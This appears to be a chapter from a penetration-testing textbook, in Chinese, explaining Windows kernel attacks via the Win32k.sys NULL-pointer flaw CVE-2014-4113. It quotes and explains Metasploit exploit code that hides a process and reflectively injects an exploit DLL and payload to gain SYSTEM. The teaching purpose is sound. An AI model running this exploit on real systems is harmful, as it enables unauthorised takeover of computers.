









# 第十三章：Windows 内核安全

内核是操作系统的“军官”。它是允许**操作系统**（**OS**）将应用程序与硬件连接的软件，将应用程序请求转化为 CPU 指令。实际上，很难将操作系统本身与其内核区分开；它是操作系统的核心。用户应用程序中的错误可能导致崩溃、不稳定、变慢等问题，但内核中的错误可能导致整个系统崩溃。一个更具破坏性的潜在威胁是以操作系统上最高权限执行任意代码。内核攻击是黑客的梦想。

操作系统中的一切都以某种形式与内核协作。作为操作系统的核心，内核需要与系统中权限较低的进程隔离；如果没有隔离，内核可能会受到破坏，而被破坏的内核将导致系统无法使用。这种隔离通过将内核在内存中的空间设置为用户侧进程无法访问来实现。尽管如此，完全的隔离会使计算机对于用户和应用程序变得无用——接口是必需的。这些接口为攻击者提供了进入 Windows 计算机最高权限级别的大门。

对 Windows NT 内核的深入讨论超出了本章的范围，但我们将介绍内核安全概念，并通过一个 Metasploit 漏洞利用模块来演示如何攻击 Windows 内核，以便更好地理解它的工作原理。我们将提供一个实践入门，教你如何利用内核漏洞在 Windows 目标上提升权限。

本章将涵盖以下内容：

+   内核概念和攻击的概述

+   使用指针概念来说明空指针缺陷

+   Metasploit 模块中的代码，用于利用 CVE-2014-4113 漏洞

+   在 Windows 7 目标机器上获取立足点后，演示如何利用该模块进行权限提升

# 技术要求

本章的技术要求如下：

+   Kali Linux

+   一台 Windows 7 目标 PC 或虚拟机

+   用于进一步调试学习的 WinDbg（完成练习不必要）

+   用于分析二进制文件和驱动程序的 IDA 反汇编器（完成本练习不必要）

# 内核基础——理解内核攻击是如何工作的

需要记住的一个重要哲学观点是，内核是一个计算机程序。它是一个构造体，对于我们这些普通的小白来说，可能会感到有些令人生畏，所以有助于记住它的真实面目。在普通编程中你学到的日常缺陷，都可能出现在内核代码中。内核占用内存，就像任何普通程序一样，因此存在将某些东西放到不该放的地方并执行的可能性。如果是这样，那内核到底有什么特别之处呢？内核通过连接计算机的硬件和操作系统的软件来管理所有低级功能。在现代 Windows 实例中，有许多不同的程序同时运行，它们都想使用同一个处理器。程序无法决定谁能获得多少时间，而处理器则愚蠢地完成操作——它也无法做出决定。是内核充当了警察的角色，管理所有与系统最低级结构的高层次交互。下次你对一台实际上并不具备多任务处理能力的计算机的多任务能力感到惊讶时，记得感谢内核为你提供了这一幻觉。

Windows 是一个使用双模式架构的操作系统示例——用户模式和内核模式（有时称为用户模式和监督模式）。因此，内存空间被分为两部分，用户模式无法访问内核空间。另一方面，内核模式具有最高的权限，可以访问系统和硬件的任何部分。内核最终是实际硬件与操作系统之间的中介。在 Windows 中，硬件的接口由**硬件抽象层**（**HAL**）提供，顾名思义，它创建了一个抽象层，旨在规范硬件差异。例如，内核模式驱动程序为请求访问硬件的应用程序提供接口；甚至像应用程序希望在屏幕上显示数据这样的事情，也必须与内核模式驱动程序合作。这些结构的美妙之处在于它们为应用程序提供了一个抽象层和一个单一的熟悉环境。Windows 开发人员不需要担心可能会显示其程序的不同显示器：



图 13.1 – Windows 如何与硬件交互

## 内核攻击向量

内核的安全性问题既深远（潜在影响巨大）也简单明了（因为内核是由人编写的软件，细节无需多说）。在检查内核概念时，我们考虑的一些攻击向量如下：

+   `API`：如果内核不允许某些方式让应用程序访问其功能，那么计算机就没有意义，我们还不如回家去。通过 API，潜在的恶意代码可能在内核模式下执行，使攻击者的 shellcode 获得完全访问权限，从而实现完全的攻击。

+   **从硬件向上划水**：如果你检查 Windows 操作系统的设计，你会注意到，你可以从系统层次结构的硬件侧更直接地接触内核。恶意驱动程序的设计可以利用将硬件设备映射到虚拟内存空间的机制。

+   **破坏引导过程**：操作系统需要在启动时加载，这时是系统的一个脆弱时刻。如果引导流程可以被任意控制，可能在各种自我保护机制初始化之前，就能够攻击内核。

+   `Rootkit`：Windows 中的内核模式 rootkit 通常表现为内核模式驱动程序。成功编写这种恶意软件是一项非常精细的平衡工作，因为内核代码的性质；再加上现代的保护措施，如驱动程序签名，使得这种攻击越来越难以实现。然而，这并非不可能，且无论如何，老旧操作系统在许多环境中仍然存在。渗透测试人员需要意识到那些安全行业喜欢描述为*正在退出历史舞台*的攻击方式。

## 内核作为时间警察的角色

现代操作系统需要执行各种“魔法”，而内核就是魔术师。一个例子是上下文切换，这是一种允许多个进程共享单个 CPU 的技术。上下文切换的实际工作是将正在运行的线程挂起并存储到内存中，调度另一个线程使用 CPU 资源运行，然后将第二个线程挂起并存储到内存中，再调回第一个线程。无法避免的是，这个过程需要时间，因此处理器的一部分延迟就来自上下文切换；操作系统的一个创新是在尽可能减少这一时间。

当然，我们很少有幸运的机会需要担心仅有两个小线程试图在同一处理器上运行——通常有几十个线程在等待，所以需要优先级管理。线程优先级是调度器的工作之一。调度器决定谁在什么时间片段内使用处理器。如果一个进程不愿意放弃它与处理器的时间呢？在合作式多任务操作系统中，进程需要完成资源的使用才会释放资源。另一方面，在抢占式多任务操作系统中，调度器可以中断任务，并稍后恢复它。你可以想象一下，一个操作系统如果无法与一个拒绝释放资源的线程进行上下文切换会带来怎样的安全隐患。幸运的是，现代操作系统通常是抢占式的。实际上，在 Windows 操作系统中，内核本身就是抢占式的——这意味着即使是内核模式下运行的任务也可以被中断。

即使是年幼的孩子也能理解存在的基本规则之一——事件并不总是同时发生，你通常需要等待某件事情发生。你必须上整整一周的学，才能迎来周末的乐趣。即使是在上下文切换和调度所用的极其微小的时间片尺度上，我们有时也需要等待某件事情发生才能继续前进。程序员和逆向工程师都会在代码中看到这些时间依赖的构造：

1.  获取`VAR`变量的值；使用`if**/**then`语句根据获取的值建立条件。

1.  获取`VAR`变量的值；根据*第 1 步*中建立的条件在函数中使用该值。

1.  获取`VAR`变量的值；根据*第 1 步*和*第 2 步*中建立的条件在函数中使用该值，依此类推。

想象一下，如果我们能创建一个条件，使得这些依赖关系按照预定顺序发生。例如，如果我能让*第 2 步*先发生呢？在这种情况下，代码期望某个条件已经建立。攻击者可能通过与已建立的顺序竞争来触发漏洞——这就是**竞态条件**。

## 它只是一个程序

从安全角度来看，理解内核最关键的一点是，它本质上是由代码组成的程序。内核中的缺陷与用户端代码中的缺陷的真正区别在于权限；任何在内核级别运行的代码都可以拥有整个系统，因为内核*就是*系统。

崩溃内核会导致无法恢复的情况（即需要重新启动），而崩溃用户应用程序只需重启应用程序——因此，探索内核攻击更加危险，容错空间也小得多。不过，它仍然只是一个计算机程序。我强调这一点，因为我们可以从程序员的角度理解本章中的内核攻击。内核是用汇编和 C 混合编写的（这种低级接口能力非常有用），因此在我们深入利用 Windows 目标之前，让我们先从 C 和汇编的角度看一下基本的编程概念。

# 指出问题——指针问题

编程语言使用不同的数据类型：数值类型，如整数，布尔类型用来表示真和假，集合和数组作为复合数据类型，等等。指针是另一种数据类型——引用。引用是指间接指向数据的值。例如，假设我有一本书，每一页上都有美国各州的地图。如果有人问我住在哪里，我可以说*第 35 页*——这是对该页面上数据（州地图）的间接引用。作为一种数据类型，引用本身是简单的，但引用所指向的数据本身也可以是一个引用。想象一下，这个小小的对象可能带来的复杂性。

## 在 C 语言和汇编中的解除引用指针

作为引用数据类型的指针被认为是低级的，因为它们的值用作内存地址。指针指向一个数据项，因此该数据项的实际内存地址就是指针的值。使用指针访问在定义的内存地址上的数据项的操作叫做**解除引用**。让我们看一个示例 C 程序，它操作指针和解除引用，然后快速查看编译后的程序的汇编代码：

```
#include <stdio.h>
```

```
int main(int argc, char **argv)
```

```
{
```

```
    int x = 10;
```

```
    int *point = &x;
```

```
    int deref = *point;
```

```
    printf("\nVariable x is currently %d. *point is %d.\n\n", x, deref);
```

```
    *point = 20;
```

```
    int dereftwo = *point;
```

```
    printf("After assigning 20 to the address referenced by point, *point is now %d.\n\n", dereftwo);
```

```
    printf("x is now %d.\n\n", x);
```

```
}
```

编译后的程序生成了以下输出：



图 13.2 – 我们指针程序的输出

我们接下来的汇编示例是 64 位的（例如，**RBP**），但概念是一样的。然而，尽管我们在使用 Linux，但我们依然采用 Intel 语法，而 Linux 使用的是 AT&T 语法——这是为了与前一章的汇编介绍保持一致。请记住，在 AT&T 语法中，源操作数和目标操作数是反过来的！

看一下在组装程序中的关键点发生了什么。声明`x`整数会在内存中为它分配一个位置。`int x = 10;` 在汇编语言中是这样写的：

```
mov    DWORD PTR [rbp-20], 10
```

因此，`10` 的值被移动到基址指针 `-20` 处的 4 字节位置。这很简单。（请注意，这里定义了我们变量的实际内存大小 —— `DWORD`。一个双字（double word）是 32 位或 4 字节长。）但是现在，看看当我们到达 `int *point = &x;` 时会发生什么，在这里我们声明了整数指针 `*point`，并将它赋值为 `x` 的实际内存位置：

```
lea    rax, [rbp-20]
```

```
mov    QWORD PTR [rbp-8], rax
```

`lea` 指令表示 **加载有效地址**。这里，`RAX` 寄存器是目标，所以实际上这里的意思是将 `-20` 基址指针的地址放入 `RAX` 寄存器。接下来，`RAX` 中的值被移动到 `-8` 基址指针处的四字（quadword）内存中。到目前为止，我们已经在 `-20` 基址指针处为 4 字节的内存腾出了空间，并将 `10` 整数放入其中。然后，我们取出了该整数在内存中的 64 位地址，并将该地址存储到 `-8` 基址指针处的内存中。简而言之，`x` 整数现在位于 `RBP - 20`，而 `RBP - 20` 的地址现在作为指针存储在 `RBP - 8` 中。

当我们通过 `int deref = *point;` 解引用指针时，汇编中会看到如下内容：

```
mov    rax, QWORD PTR [rbp-8]
```

```
mov    eax, DWORD PTR [rax]
```

```
mov    DWORD PTR [rbp-12], eax
```

为了理解这些指令，我们先快速回顾一下寄存器。记住，`EAX` 是 IA-32 架构中的 32 位寄存器，它是 16 位 `AX` 的扩展。在 x64 架构中，`RAX` 是 64 位寄存器，但记住它是向后兼容的，遵循相同的原则 —— `RAX` 是 `EAX` 的扩展：



图 13.3 – 64 位寄存器

方括号 `[ ]` 用于区分内存位置或寄存器的内容。所以，首先，我们将 `RBP - 8` 指向的四字（quadword）值放入 `RAX` 寄存器中，然后我们将 `RAX` 所指向的 `DWORD` 值加载到 `EAX` 寄存器，最后，将 `EAX` 中的 `DWORD` 值存储到位于 `-12` 基址指针的内存中。

记住，`RBP - 8` 存储的是我们整数 `x` 的地址。所以，正如你在汇编代码中看到的那样，我们通过指向一个指针，成功地将那个整数存储到内存的另一个位置。

## 理解 NULL 指针解引用

现在我们已经回顾了指针基础知识，我们可以定义 NULL 指针解引用——当程序使用指针访问它所指向的内存位置（解引用），但指针的值为 NULL 时，就会发生这种情况。如果你回忆一下我们在介绍 shellcoding 时的内容，我们的程序试图访问`0x7a7a7a7a`，这是我们在用 ASCII 字母`z`覆盖返回地址时发生的，所以在 NULL 指针的情况下，试图访问的是内存中一个无效的位置。区别在于，我们并没有用任意字节覆盖指针值；它是 NULL——一个根本不存在的地址。结果总是某种故障，但最终的行为可能是不可预测的。既然如此，为什么我们会关注 NULL 指针解引用呢？

我知道你心中的黑客正想说，*显然利用 NULL 指针解引用漏洞会导致拒绝服务攻击（DoS）*。也许吧，小草蜢，但事情比这更复杂。首先，从`0x00000000`开始的内存地址可能是映射的，也可能不是——也就是说，如果 NULL 指针的值真的为零，可能会进入一个合法的内存位置。如果它不是一个有效的内存位置，我们就会遇到崩溃；但如果是有效的，而且那里有一些诱人的 shellcode，那么我们就能实现代码执行。另一个需要考虑的情况是指针在解引用之前没有被正确验证。在这种情况下，实际的值可能不是 NULL，但攻击本质上是一样的。为了进行分析，我们将选择一个 2014 年广为人知的 Windows 漏洞——CVE-2014-4113。

提到已知漏洞最常见的方式可能是通过其**通用漏洞与暴露**（**CVE**）标识。CVE 是由美国联邦政府赞助的一个基于软件的威胁目录。漏洞被定义为可能使攻击者直接访问系统或数据的缺陷，而暴露则是允许间接访问系统或数据的缺陷。CVE 的命名规范为**CVE-<年份>-<编号>**。

## Win32k 内核模式驱动程序

CVE-2014-4113 也被称为微软安全公告中的 MS14-058。它是内核模式驱动程序`Win32k.sys`中的一个**特权提升**（**EoP**）漏洞。我不知道`Win32k.sys`这个名字是否已经表明了这一点，但这个特定驱动程序中的错误对于 Windows 系统来说是个非常糟糕的消息。

`Win32k.sys` 驱动程序是 Windows 子系统某些核心部分的内核端。它的主要功能是 Windows 的图形用户界面（GUI）；负责窗口管理。任何需要显示内容的程序都不会直接与图形硬件交互。相反，它通过 **图形设备接口**（**GDI**）进行接口，而 `Win32k.sys` 负责管理该接口。用户模式的窗口管理通过 `Client/Server Runtime Subsystem`（**CSRSS**）用户端服务中的 User32 DLL 与 `Win32k.sys` 进行通信。驱动程序通过入口点提供对其功能的访问，`Win32k.sys` 大约有 600 个这样的入口点。这个高度复杂的交互和核心功能使得像 `Win32k.sys` 这样的组件在安全性方面成为一场噩梦。

这是一个极其简化的图示，展示了 `Win32k.sys` 在 Windows 内核中的位置及其与用户空间的关系：



图 13.4 – Win32k.sys 与内核的交互

请注意，这个图示在物理上也与内存相关，因为用户空间位于内存的下半部分（图示的顶部），而内核空间占据上半部分。`0x00000000` 到 `0x7FFFFFFF` 是用户空间，应用程序的虚拟内存空间占据其中的某些区域；剩余部分 `0x80000000` 到 `0xFFFFFFFF` 是强大的内核空间。Windows 的设计并不傻——你不能随意在内核空间执行某些操作：



图 13.5 – 利用 Win32k.sys

我们希望实现的目标是通过在内核模式下运行的代码来执行我们在用户空间中的有效载荷。我们不需要进入内核的“后院”就能让某些操作在内核的高权限下执行。

## 传递一个错误代码作为 xxxSendMessage() 的指针

`Win32k.sys`中有很多复杂内容，我们没有时间深入探讨，因此让我们集中注意力于下一节中，我们将使用模块攻击的脆弱结构。记住，`Win32k.sys`主要负责窗口管理，包括处理来自应用程序的请求，将内容输出到显示器。`Win32k.sys`中有一个名为`xxxMNFindWindowFromPoint()`的函数，用于识别占据屏幕特定位置的窗口（给定的*X*和*Y*坐标点）。该函数会返回一个 C++结构体`tagWND`的内存地址（`WND`表示窗口；这属于窗口管理的一部分），但如果发生错误，函数会返回错误代码——`-1`和`-5`。在一个经典的编程疏忽中，调用此函数的代码会检查是否返回了`-1`，但并没有检查`-5`。只要在执行以下简单比较时——`cmp ebx,0FFFFFFFFh`——零标志没有被设置，程序就会高兴地继续运行，认为从被调用的函数中返回了有效的内存指针。无效指针漏洞就此产生。

让我们来看一下通过 IDA 分析`Win32k.sys`的执行流程。在我的 IDA 会话中，我将驱动程序中的`sub_BF8B959D`识别为`xxxSendMessage()`函数（`sub`代表子程序）。关键时刻可以在`loc_BF9392D8`看到（`loc`表示内存位置）：

```
cmp    ebx, 0FFFFFFFFh
```

```
jnz    short loc_BF9392EB
```

`EBX`寄存器中的值将与`-1`进行比较（请注意，十六进制值是有符号整数，因此`0xFFFFFFFF`等于**-1**）。如果零标志没有被设置，`jnz`将跳转；记住，这只是汇编语言的说法：如果两个比较值*不*相等，就跳转到指定的位置。

让我们快速回顾一下汇编中的条件跳转。*零跳转*或*非零跳转*的原理是基于比较结果。假设你有`x`和`y`这两个变量。这是一个简单的逻辑语句，`x - x = 0`。因此，如果`x - y = 0`，那么我们就知道`x = y`。`jnz`和`jz`会检查标志寄存器中的零标志位，以检查比较结果。

所以，如果`EBX`中的值不是`-1`，那么我们跳转到`loc_BF9392EB`：

```
push    0
```

```
push    [ebp+arg_8]
```

```
push    1Edh
```

```
push    ebx
```

```
call    sub_BF8B959D
```

让我们在 IDA 中看一下这个情况。



图 13.6 – IDA 中的一个关键测试

回想一下在我的特定 IDA 会话中，`sub_BF8B959D`是`xxxSendMessage`函数。最简单的说法是，如果`EBX`包含除了`-1`之外的任何值，`xxxSendMessage`将被调用。`-5`的值在调用之前不会与`EBX`进行比较。通过在此时返回`-5`，我们可以将其作为参数传递给`xxxSendMessage`函数。`-5`以十六进制表示的值是`0xFFFFFFFB`。在这个特定参数中，`xxxSendMessage`期望的是一个指针。如果攻击成功，执行将尝试跳转到内存位置`0xFFFFFFFB`。攻击的一部分任务是将我们定位到 NULL 页面，并带有一个偏移量。在此之前，攻击已经在 NULL 页面上映射了一些空间，因此最终，执行跳转到用户空间中等待的 shellcode。（像往常一样，Windows 出于向后兼容的原因，允许 NULL 页面映射。）现在，我知道你内心的黑客在说：*看起来禁用 NULL 页面映射就能立刻阻止这个攻击*。你说得对，做得好，微软也考虑到了这一点——从 Windows 8 开始，默认禁用 NULL 页面映射。

这里没有足够的篇幅深入分析这个特定漏洞，但我希望我已为你提供了足够的背景信息来尝试这个实验——在你的 Windows 7 虚拟机上操作，获取驱动程序（它位于`System32`文件夹中），在 IDA 中打开它，跟踪执行流程。看看你是否能理解这里其他函数的运行情况。试着持续记录寄存器及其值，并利用`push`和`pop`操作实时了解堆栈的变化。IDA 是进行这种分析的完美工具。我有预感，你会被深深吸引。

## Metasploit – 探索 Windows 内核漏洞模块

现在我们有了一些背景知识，接下来我们将通过 Metasploit 观察攻击的实际操作。与此漏洞相关的利用模块名为`exploit/windows/local/ms14_058_track_popup_menu`（回忆一下，MS14-058 是微软针对该漏洞发布的安全公告编号）。请注意，这个漏洞的利用属于**本地**子类别。该漏洞的性质要求我们能够以特权用户身份执行程序——这是一个本地攻击，而非远程攻击。有时，你会看到安全出版物用类似*攻击者必须位于本地机器旁边这一事实限制了风险*的措辞来讨论本地漏洞。此时，你应该会心一笑，因为你知道区分本地与远程攻击的语境，实际上是去除了坐在键盘前的人为因素。如果我们能说服用户采取某些行动，那么我们就可以像本地攻击一样操作。这些本地攻击只需一点小巧思就能变成远程控制。

在进入有趣的部分之前，让我们详细检查一下 Metasploit 模块，以便理解它是如何工作的。像往常一样，我们需要查看 `include` 语句，以便回顾导入到该模块中的功能：

```
require 'msf/core/post/windows/reflective_dll_injection'
```

```
class MetasploitModule < Msf::Exploit::Local
```

```
    Rank = NormalRanking
```

```
    include Msf::Post::File
```

```
    include Msf::Post::Windows::Priv
```

```
    include Msf::Post::Windows::Process
```

```
    include Msf::Post::Windows::FileInfo
```

```
    include Msf::Post::Windows::ReflectiveDLLInjection
```

所以，这里加载了几个 Windows 后期攻击模块：`File`、`Priv`、`Process`、`FileInfo` 和 `ReflectiveDLLInjection`。我不会在这里给你列出所有五个模块的代码，但你应该始终认为，适当审查导入的模块是一个必要步骤。请记住，`include` 语句将这些模块作为 mixins 导入，使得它们的参数可以直接在父模块中引用。

回到父模块 – 我们将跳过前两个定义的方法，`initialize(info={})` 和 `check`。你应该记得，`info` 初始化为用户提供有用的信息，但这对模块的功能来说并不是必需的。它的主要作用是使得关键字可以在 `msfconsole` 中用于搜索功能。`check` 方法也不是严格必须的，但它使得该模块可以与 Metasploit 的兼容性检查功能一起使用。当选择一个目标时，你可以加载一个漏洞利用模块，并检查目标是否可能存在漏洞。就我个人而言，我觉得检查功能非常巧妙且可能节省时间，但通常来说，我不建议完全依赖它。

现在，终于到了 – `exploit` 方法。请注意，该方法首先进行了一些错误检查，我们跳过了这些部分；它确保我们还不是 `SYSTEM`（以防你在冲过终点线后仍在全速前进！），并且检查会话主机架构与选项定义的架构是否匹配：

```
def exploit
```

```
    print_status('Launching notepad to host the exploit...')
```

```
    notepad_process = client.sys.process.execute('notepad.exe', nil, {'Hidden' => true})
```

```
    begin
```

```
        process = client.sys.process.open(notepad_process.pid, PROCESS_ALL_ACCESS)
```

```
        print_good("Process #{process.pid} launched.")
```

```
  rescue Rex::Post::Meterpreter::RequestError
```

```
        print_error('Operation failed. Trying to elevate the current process...')
```

```
        process = client.sys.process.open
```

```
    end
```

该方法从尝试启动记事本开始。请注意，`{'Hidden' => true}` 参数被传递给 `execute`。这确保了记事本会执行，但友好的编辑器窗口不会实际出现在用户面前（这肯定会让用户察觉到有什么不对劲）。然后，我们处理记事本启动成功的情况，并获取进程 ID，进入下一阶段的攻击；如果启动记事本失败，`rescue` 会派上用场，处理启动失败的情况，改为获取当前打开的进程用于下一阶段。

DLL 是 Windows 中共享库模型的实现。它们是可以被多个程序共享的可执行代码。就实际用途而言，它们应当被视为可执行文件。与 EXE 文件的主要区别在于，DLL 需要一个由运行中的程序提供的入口点。从安全角度来看，DLL 是非常危险的，因为它们被加载到调用进程的内存空间中，这意味着它们拥有与运行进程相同的权限。如果我们能够将恶意 DLL 注入到一个特权进程中，这几乎就意味着游戏结束。

接下来是我们的大高潮——反射 DLL 注入。DLL 旨在加载到进程的内存空间中，因此 DLL 注入实际上就是强制用我们选择的 DLL 来加载它。然而，由于 DLL 本身就是一个独立的文件，DLL 注入通常涉及从磁盘上提取 DLL 的代码。反射 DLL 注入让我们可以直接从内存中提取源代码。让我们来看看我们的模块在 `Win32k.sys` 漏洞利用的背景下如何进行反射 DLL 注入：

```
    print_status("Reflectively injecting the exploit DLL into #{process.pid}...")
```

```
   if target.arch.first == ARCH_X86
```

```
        dll_file_name = 'cve-2014-4113.x86.dll'
```

```
    else
```

```
        dll_file_name = 'cve-2014-4113.x64.dll'
```

```
    end
```

```
    library_path = ::File.join(Msf::Config.data_directory, 'exploits', 'CVE-2014-4113', dll_file_name)
```

```
    library_path = ::File.expand_path(library_path)
```

```
    print_status("Injecting exploit into #{process.pid}...")
```

```
    exploit_mem, offset = inject_dll_into_process(process, library_path)
```

```
    print_status("Exploit injected. Injecting payload into #{process.pid}...")
```

```
    payload_mem = inject_into_process(process, payload.encoded)
```

```
    print_status('Payload injected. Executing exploit...')
```

```
    process.thread.create(exploit_mem + offset, payload_mem)
```

```
    print_good('Exploit finished, wait for (hopefully privileged) payload execution to complete.')
```

```
end
```

让我们一步步地审查这部分，并跳过状态输出：

+   首先是 `if...else** **target.arch.first == ARCH_X86` 语句。这不言自明——模块从 Metasploit `Data\Exploits` 文件夹中提取利用 DLL，这个检查使得架构能够正确地定位目标。

+   `library_path` 允许模块从攻击者的本地磁盘找到并加载利用 DLL。我希望你的创造性思维已经启动，你应该意识到，你可以修改这个模块，将它指向任何你喜欢的 DLL。

+   `exploit_mem, offset = inject_dll_into_process()` 是第一次给目标的耳光。注意，`inject_dll_into_process()` 在包含的 `ReflectiveDLLInjection` 模块中定义。这个方法接受目标进程和 DLL 的本地路径作为参数，然后返回一个包含两个值的数组——分配的内存地址和偏移量。我们的模块将这些返回值分别存储为 `exploit_mem` 和 `offset`。

